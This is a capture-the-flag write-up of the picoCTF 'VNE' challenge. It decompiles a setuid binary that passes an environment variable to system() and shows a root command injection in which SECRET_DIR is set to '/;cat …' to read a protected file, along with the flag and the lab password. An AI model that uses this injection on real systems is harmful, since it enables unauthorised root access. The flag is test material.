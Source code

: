 ```yaml
---
title: PicoCTF - VNE
tags: [PicoCTF, PWN, CTF]

category: "Security/Practice/PicoCTF/PWN"
---
```


# PicoCTF - VNE
## Background
System Environment
Command Injection

## Description & Hint
We've got a binary that can list directories as root, try it out !! ssh to saturn.picoctf.net:53176, and run the binary named "bin" once connected. Login as ctf-player with the password, d137d16e
* Hint 1: Have you checked the content of the /root folder
* Hint 2: Find a way to add more instructions to the ls

## Source Code
:::spoiler IDA Main Function
```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rax
  int v4; // ebx
  __int64 v5; // rax
  __int64 v6; // rax
  __int64 v7; // rax
  const char *v8; // rax
  __int64 v9; // rax
  __int64 v10; // rax
  char v12; // [rsp+3h] [rbp-6Dh] BYREF
  unsigned int v13; // [rsp+4h] [rbp-6Ch]
  char *v14; // [rsp+8h] [rbp-68h]
  char v15[32]; // [rsp+10h] [rbp-60h] BYREF
  char v16[40]; // [rsp+30h] [rbp-40h] BYREF
  unsigned __int64 v17; // [rsp+58h] [rbp-18h]

  v17 = __readfsqword(0x28u);
  v14 = getenv("SECRET_DIR");
  if ( v14 )
  {
    v5 = std::operator<<<std::char_traits<char>>(&std::cout, "Listing the content of ");
    v6 = std::operator<<<std::char_traits<char>>(v5, v14);
    v7 = std::operator<<<std::char_traits<char>>(v6, " as root: ");
    std::ostream::operator<<(v7, &std::endl<char,std::char_traits<char>>);
    std::allocator<char>::allocator(&v12);
    std::string::basic_string(v16, v14, &v12);
    std::operator+<char>(v15, "ls ", v16);
    std::string::~string(v16);
    std::allocator<char>::~allocator(&v12);
    setgid(0);
    setuid(0);
    v8 = (const char *)std::string::c_str(v15);
    v13 = system(v8);
    if ( v13 )
    {
      v9 = std::operator<<<std::char_traits<char>>(&std::cerr, "Error: system() call returned non-zero value: ");
      v10 = std::ostream::operator<<(v9, v13);
      std::ostream::operator<<(v10, &std::endl<char,std::char_traits<char>>);
      v4 = 1;
    }
    else
    {
      v4 = 0;
    }
    std::string::~string(v15);
  }
  else
  {
    v3 = std::operator<<<std::char_traits<char>>(&std::cerr, "Error: SECRET_DIR environment variable is not set");
    std::ostream::operator<<(v3, &std::endl<char,std::char_traits<char>>);
    return 1;
  }
  return v4;
}
```
:::
## Recon
這一題也是蠻有趣的，題目有說要先執行bin，可以用winscp遠端把執行檔dump到local端，然後用IDA逆一下，就會發現它其實就是執行ls而已，所以我們就要用簡單的command injection達到RCE
## Exploit
```bash
$ ssh ctf-player@saturn.picoctf.net -p 58395
$ ./bin
Error: SECRET_DIR environment variable is not set
$ export SECRET_DIR=/challenge/
$ ./bin
Listing the content of /challenge/ as root:
config-box.py  metadata.json  profile
$ export "SECRET_DIR=/;cat /challenge/metadata.json"
$ ./bin
Listing the content of /;cat /challenge/metadata.json as root:
bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var
{"flag": "picoCTF{Power_t0_man!pul4t3_3nv_19a6873b}", "password": "d137d16e"}
```

Flag: `picoCTF{Power_t0_man!pul4t3_3nv_19a6873b}`